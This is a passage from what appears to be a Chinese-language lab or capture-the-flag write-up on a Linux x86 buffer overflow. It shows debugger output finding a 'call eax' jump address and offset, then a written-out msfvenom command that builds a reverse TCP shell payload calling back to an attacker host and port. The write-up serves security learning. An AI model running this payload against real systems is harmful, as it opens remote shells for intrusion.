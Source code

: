 ```
gdb-peda$ jmpcall eax
0x8048563 : call eax

或者：asmsearch "jmp eax"
asmsearch "call eax"

EAX 地址0x8048563

目前知道了JMP值：0x8048563
偏移量：168
接下来创建shellcode写个脚本就直接拿下！
```

### 创建后门

```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.126.134 LPORT=6666 -f python -b "\x00\x0a\x0b"

payload：
-p 载荷类型
LHOST 本机地址
LPORT
-b 坏字符
-f 编译的语言
\x00 == 0x00 ASCII控制字符表中对应 NULL (空字符)
\x0a == 0X0a ASCII控制字符表中对应 LF （换行键）
\x0b == 0x0b ASCII控制字符表中对应 VT (垂直定位符号)

需要运行，在输入密码，在输入ID，才能进行缓冲区溢出，这时候需要expect的特殊脚本语言来写：
https://en.wikipedia.org/wiki/Expect
```

![image-20231112234419637](./assets/image-20231112234419637.png)
